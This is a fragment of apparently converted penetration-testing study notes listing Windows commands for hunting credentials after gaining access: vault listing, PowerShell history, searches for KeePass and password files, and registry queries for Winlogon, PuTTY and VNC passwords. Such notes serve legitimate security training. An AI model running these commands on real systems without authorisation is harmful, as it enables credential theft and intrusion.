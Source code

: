 -   .\\appcmd.exe list apppool \"pportal\" /text:\*

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image24.png){width="3.1354166666666665in"
height="1.125in"}

vaultcmd /listcreds:\"Windows Credentials\" /all

PS C:\\\> (Get-PSReadlineOption).HistorySavePath

C:\\Users\\adrian\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadLine\\ConsoleHost_history.txt

Get-ChildItem -Path C:\\ -Include \*.kdbx -File -Recurse -ErrorAction
SilentlyContinue

Get-ChildItem -Path C:\\xampp -Include \*.txt,\*.ini -File -Recurse
-ErrorAction SilentlyContinue

type C:\\xampp\\passwords.txt

Get-ChildItem -Path C:\\Users\\dave\\ -Include
\*.txt,\*.pdf,\*.xls,\*.xlsx,\*.doc,\*.docx -File -Recurse -ErrorAction
SilentlyContinue

cat Desktop\\asdf.txt

REG QUERY HKLM /F \"password\" /t REG_SZ /S /K

REG QUERY HKCU /F \"password\" /t REG_SZ /S /K

reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows
NT\\Currentversion\\Winlogon\" \# Windows Autologin

reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows
NT\\Currentversion\\Winlogon\" 2\>nul \| findstr \"DefaultUserName
DefaultDomainName DefaultPassword\"

reg query \"HKLM\\SYSTEM\\Current\\ControlSet\\Services\\SNMP\" \# SNMP
parameters

reg query \"HKCU\\Software\\SimonTatham\\PuTTY\\Sessions\" \# Putty
clear text proxy credentials

reg query \"HKCU\\Software\\ORL\\WinVNC3\\Password\" \# VNC credentials

reg query HKEY_LOCAL_MACHINE\\SOFTWARE\\RealVNC\\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s

-   dir /s/b C:\\\*.zip

```{=html}
<!-- -->
```
-   dir /s/b \\\*.doc

## **Service Binary Hijacking**
